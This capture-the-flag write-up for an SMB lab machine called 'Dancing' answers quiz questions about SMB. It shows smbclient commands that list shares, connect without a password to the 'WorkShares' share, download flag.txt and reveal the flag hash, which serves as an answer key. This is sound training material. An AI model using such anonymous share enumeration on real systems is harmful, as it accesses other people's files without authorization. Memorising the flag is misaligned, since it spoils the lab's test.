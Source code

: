 # Dancing

> What does the 3-letter acronym SMB stand for? 

#### Server Message Block

---

> What port does SMB use to operate at? 

#### 445 

---

> What network communication model does SMB use, architecturally speaking? 

#### client-server model 

---

> What is the service name for port 445 that came up in our nmap scan?

#### microsoft-ds 

---

> What is the tool we use to connect to SMB shares from our Linux distribution?

#### smbclient

---

> What is the `flag` or `switch` we can use with the SMB tool to `list` the contents of the share? 

#### -L 

---

> What is the name of the share we are able to access in the end?

```console
$ smbclient -L 10.129.217.4
Enter WORKGROUP\marco's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
SMB1 disabled -- no workgroup available
```

The password can be empty

#### WorkShares 

---

> What is the command we can use within the SMB shell to download the files we find? 

#### get 

---

> Submit root flag 

This time we can connect directly to `WorkShares`

```console
$ smbclient //10.129.217.4/WorkShares
Enter WORKGROUP\marco's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1732742 blocks available
```

Now is time to find and get the flag

```console
smb: \> get James.P\flag.txt
getting file \James.P\flag.txt of size 32 as James.P\flag.txt (0,0 KiloBytes/sec) (average 0,0 KiloBytes/sec)
smb: \> exit

$ cat James.P\\flag.txt
5f61c10dffbc77a704d76016a22f1664
```

#### 5f61c10dffbc77a704d76016a22f1664
